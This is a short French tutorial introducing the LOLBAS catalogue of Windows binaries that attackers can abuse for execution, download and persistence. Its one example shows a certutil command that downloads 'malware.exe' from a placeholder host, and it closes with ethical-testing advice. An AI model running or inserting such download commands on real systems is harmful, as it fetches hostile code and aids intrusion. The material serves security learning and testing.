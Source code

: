 # LOLBAS

### **Tuto LOLBAS**

**Introduction**

LOLBAS (Living Off The Land Binaries and Scripts) est un référentiel en ligne qui recense les binaires, scripts, et bibliothèques Windows pouvant être détournés à des fins malveillantes ou pour des tests de sécurité.

### **Accéder à LOLBAS**

* URL : [LOLBAS](https://lolbas-project.github.io)

### **Fonctionnalités principales :**

* **Catalogue des binaires Windows abusables :** Une collection exhaustive de binaires et scripts légitimes intégrés à Windows qui peuvent être détournés.
* **Filtres par type :** Explorer les binaires, scripts, ou bibliothèques par catégories spécifiques.
* **Exemples détaillés :** Chaque binaire est accompagné de techniques exploitables pour des activités comme l'escalade de privilèges, l'exfiltration, ou la persistance.

### **Comment utiliser LOLBAS**

1. **Rechercher un binaire/script :**
   * Accédez à [LOLBAS](https://lolbas-project.github.io).
   * Utilisez la barre de recherche ou parcourez les catégories pour trouver un binaire spécifique (ex. : `certutil`).
2. **Explorer les capacités :**
   * Cliquez sur le binaire pour voir les scénarios exploitables :
     * **Execution** : Utilisation du binaire pour exécuter des commandes arbitraires.
     * **Download** : Exploitation pour télécharger des fichiers à partir de l'Internet.
     * **Persistence** : Techniques pour maintenir l'accès au système.
3. **Exemple avec `certutil` :**
   *   Utilisation de `certutil` pour télécharger un fichier :

       ```cmd
       certutil.exe -urlcache -split -f http://example.com/malware.exe malware.exe
       ```
4. **Tester dans un environnement sécurisé :**
   * Ces techniques doivent être expérimentées dans un environnement contrôlé pour éviter tout impact négatif.

***

### **Bonnes Pratiques pour les Deux Ressources :**

* **Utilisation Éthique :** Ces outils sont conçus pour l'apprentissage et les tests de sécurité éthiques uniquement.
* **Test en Environnement Sécurisé :** Utilisez des machines virtuelles ou des environnements isolés pour tester les scénarios.
* **Mises à Jour Régulières :** Consultez fréquemment ces référentiels, car de nouveaux outils et méthodes y sont régulièrement ajoutés.
